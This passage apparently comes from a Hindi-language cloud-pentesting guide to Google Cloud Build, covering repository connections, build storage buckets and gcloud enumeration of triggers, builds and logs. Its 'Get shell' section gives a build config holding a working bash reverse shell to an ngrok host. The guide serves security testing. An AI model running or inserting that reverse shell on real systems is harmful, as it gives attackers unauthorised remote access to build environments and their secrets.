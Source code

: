### Connect a Repository

यह **`connection`** के समान नहीं है। यह **Github या Bitbucket** रिपॉजिटरी तक पहुँच प्राप्त करने के **विभिन्न** तरीकों की अनुमति देता है लेकिन **एक कनेक्शन ऑब्जेक्ट उत्पन्न नहीं करता है, बल्कि यह एक रिपॉजिटरी ऑब्जेक्ट (1st पीढ़ी का) उत्पन्न करता है।**

यह विकल्प बटन के माध्यम से उपलब्ध है:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

### Storage

कभी-कभी Cloud Build **ट्रिगर के लिए फ़ाइलों को संग्रहीत करने के लिए एक नया स्टोरेज उत्पन्न करेगा।** यह उदाहरण के लिए उस उदाहरण में होता है जो GCP प्रदान करता है:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
एक स्टोरेज बकेट जिसे [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) कहा जाता है, एक `.tgz` फ़ाइल को स्टोर करने के लिए बनाया गया है जिसमें उपयोग के लिए फ़ाइलें हैं।

### Get shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
gcloud को क्लाउड बिल्ड के अंदर इंस्टॉल करें:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Enumeration

आप **बिल्ड कॉन्फ़िग्स और लॉग्स में संवेदनशील जानकारी** पा सकते हैं।
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
```